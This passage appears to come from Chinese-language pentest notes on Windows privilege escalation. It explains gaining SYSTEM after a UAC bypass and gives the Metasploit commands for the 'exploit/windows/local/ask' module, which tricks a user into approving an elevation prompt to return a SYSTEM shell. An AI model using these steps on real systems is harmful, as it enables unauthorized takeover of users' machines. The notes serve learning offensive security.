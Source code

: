 ```
绕过UAC后再提权，即可提权到system.
```

![image-20241016125718128](操作系统提权/image-20241016125718128.png)	

```
RUNAS模块 
该模块会创建一个可执行文件，目标机器会运行一个发起提升权限请求的程序，提示用户是否要继续运行，如果用户选择继续运行程序，就会返回一个system权限的shell
这个模块对用户没有要求，但是普通用户点击需要输入管理员的账号密码，普通管理员点击通过即可。
use exploit/windows/local/ask
set session 1
run
```

![image-20241016125900722](操作系统提权/image-20241016125900722.png)	

```
但是这里需要用户点击是才行。
```

![image-20241016130015746](操作系统提权/image-20241016130015746.png)	
